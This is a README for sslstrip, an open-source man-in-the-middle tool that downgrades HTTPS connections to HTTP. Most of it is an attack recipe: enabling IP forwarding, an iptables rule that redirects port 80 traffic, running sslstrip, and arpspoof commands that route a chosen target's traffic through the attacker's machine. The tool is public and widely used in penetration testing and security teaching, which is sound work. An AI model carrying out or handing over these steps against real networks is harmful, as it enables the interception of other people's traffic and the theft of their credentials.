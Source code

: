 sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

Ported from Python v2 to v3 by Jay Townsend (theHarvester, Discover, and DNSrecon).
* [![Twitter Follow](https://img.shields.io/twitter/follow/jay_townsend1.svg?style=social&label=Follow)](https://twitter.com/jay_townsend1) Jay "L1ghtn1ng" Townsend @jay_townsend1

Requirements:  
   ```pip3 install -r requirements.txt```  
Install the requirements in a virtualenv
   
Running:  
   sslstrip can be run from the source base without installation.  
   Run as a normal user to see options.  
   ```python3 sslstrip.py -h```

   1. As root, enable IP forwarding:<br>
      ```echo "1" > /proc/sys/net/ipv4/ip_forward```

   2. As root, setup iptables to intercept HTTP requests:<br>
      ```iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <your listen port>```
   
   3. Run sslstrip with the options you prefer.
	
   4. As root, run arpspoof to redirect traffic to your host:<br>
      ```arpspoof -i <your network interface> -t <target IP> <routers IP>```
